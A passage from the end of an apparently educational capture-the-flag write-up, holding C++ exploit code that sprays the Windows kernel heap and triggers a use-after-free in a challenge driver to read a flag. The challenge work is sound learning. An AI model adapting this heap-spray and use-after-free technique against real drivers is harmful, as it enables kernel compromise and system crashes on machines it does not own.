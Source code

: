 ```cpp
    p.MappedPagesAddress = (UINT64)OurBuffer; // <------------------------------------------- buffer in usermode that kernel will write flag to
    *(PAYLOAD*)data = p;
    UnbufferedHeapSpray(data, 0xB0); // <---------------------------------------------------- spray Heap so it fills our hole
    printf("[+] Spraying heap!\n");
    printf("[+] Attempting to exploit the UAF now\n");
    hDriver = CreateFile(L"\\\\.\\VeryNormalDriver", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("failed to open driver %u\n", GetLastError());
        return -1;
    }
    printf("[+] Attempting to read file\n");
	DeviceIoControl(hDriver, 0x80002014, NULL, 0x0, NULL, 0, NULL, NULL);
    printf("[+] Attempting to copy file to our buffer\n");
	DeviceIoControl(hDriver, 0x80002010, NULL, 0x0, NULL, 0, NULL, NULL);

    printf("[+] Flag %s\n", (char*)p.MappedPagesAddress);
    memset(&p, 0x0, sizeof(PAYLOAD));
    PAYLOAD p2 = { 0 };
    p.Pid = -1;
    p2.Entry.Flink = (UINT64)VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    p2.Entry.Blink = (UINT64)VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memset((VOID*)p2.Entry.Flink, 0x0, 0x1000);
    memset((VOID*)p2.Entry.Blink, 0x0, 0x1000);
    *(PAYLOAD*)data2 = p2;
    CreateHoles();
	printf("[+] Refilling holes!\n");
    // refill the holes so we dont crash the machine
    UnbufferedHeapSpray(data2, 0xB0);
	printf("[+] Hopefully we dont crash!\n");
	printf("[+] Done!\n");

    return 0;
}

```

After running our exploit we were able to capture the flag.
<img width="724" height="373" alt="image" src="https://github.com/user-attachments/assets/b7dc91a5-f854-4bfb-b853-20a45f6dc641" />

This was ran on the following version of windows. Beware the exploit crashes the machine sometimes.
<img width="533" height="69" alt="image" src="https://github.com/user-attachments/assets/462fc9de-0aee-411e-a0a9-330faba589fe" />

# Conclusion
Big thanks to [@chompie1337](https://github.com/chompie1337) for this challenge, as it was a great way to spend a couple days getting my feet wet
with windows kernel heap exploitation. Also many thanks to all the research listed below as it was instrumental in finishing this challenge.
